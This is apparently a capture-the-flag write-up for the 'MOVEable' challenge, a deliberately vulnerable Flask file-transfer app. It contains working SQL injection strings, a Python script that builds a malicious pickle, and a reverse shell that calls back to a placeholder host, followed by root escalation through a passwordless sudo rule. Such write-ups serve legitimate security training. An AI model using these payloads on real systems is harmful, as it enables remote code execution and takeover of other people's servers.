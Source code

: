# MOVEable

## Description

<small>Author: @JohnHammond#6971</small><br><br>Ever wanted to move your files? You know, like with a fancy web based GUI instead of just FTP or something? <br><br> Well now you can, with our super secure app, <b>MOVEable</b>!  <br><br> Escalate your privileges and find the flag. <br> <br> <b>Download the file(s) below and press the <code>Start</code> button on the top-right to begin this challenge.</b>


## Files

* [app.zip](<files/app.zip>)


## Solution

MOVEable is a live service with both a SQL injection and insecure deserialization vulnerability.

Source code was provided with the challenge, making it a bit easier.

The first thing to note is that the `login` route has a SQLi vulnerability, though some sanitation is applied using the `DBClean()` method on the username and password inputs.

```python
    username = DBClean(request.form['username'])
    password = DBClean(request.form['password'])
    
    conn = get_db()
    c = conn.cursor()
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    c.executescript(sql)
    user = c.fetchone()
```

> Note: `fetchone()` doesn't work with `executescript()`, so this code is intentionally buggy

We can still construct a malicious query such as the following, which will add a user to the database:
```
aaaa\;INSERT/**/INTO/**/users/**/VALUES/**/(\myuser\,\mypass\);-- -
```

Further down in the code, we notice the usage of `pickle` to deserialize files stored in the database. This can lead to possible RCE if we can execute that code with malicious input. We can, but we need a valid user and session first. We can do that by running two queries to setup the database how we want it:

```
Create a user:
aaaa\;INSERT/**/INTO/**/users/**/VALUES/**/(\myuser\,\mypass\);-- -

Create an active session:
aaaa\;INSERT/**/INTO/**/activesessions/**/VALUES/**/(\12345\,\myuser\,\2024-10-17 18:00:00\);-- -
```

After this, we need to create a malicious pickle object and put it in the database.

We can do this pretty easily, with the exception that I had an issue with the following lines of code raising an error:

```python
    file_blob = pickle.loads(base64.b64decode(file_data[0]))
    try:    
        return send_file(io.BytesIO(file_blob), download_name=filename, as_attachment=True)
    except TypeError:
        flash("ERROR: Failed to retrieve file. Are you trying to hack us?!?")
        return redirect(url_for('files'))
```

This can be bypassed by wrapping our exploit in a call to `flash()`, where we can display the output of our exploits instead.

We don't need to do anything too special though, it's possible to just get a reverse shell. 

I used the following script to generate the malicious payload:
```python
#!/usr/bin/env python3

import pickle
import base64
import flask
import os


class RCE(object):

    def __reduce__(self):
        return (os.system,('''python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<CALLBACK_IP>",<CALLBACK_PORT>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")' ''',))

with open("output.pickle", "wb") as output_file:
    pickle.dump(RCE(), output_file)
    output_file.close()

with open("output.pickle", "rb") as output_file:
    data = output_file.read()
    #base64 encode
    data = base64.b64encode(data)
    #format string
    data = data.decode()
    print(fr"aaaa\;INSERT/**/INTO/**/files/**/VALUES/**/(\write\,\{data}\,\12345\);-- -")
```

Submitting the query via SQLi, then navigating to the download page should execute the malicious payload and let you catch the reverse shell.

From there, you are required to escalate your privileges you read the file in `/root/flag.txt`.

The escalation path is a simple `sudo -i` because the moveable user is in the sudoers file as `NOPASSWD: ALL`.
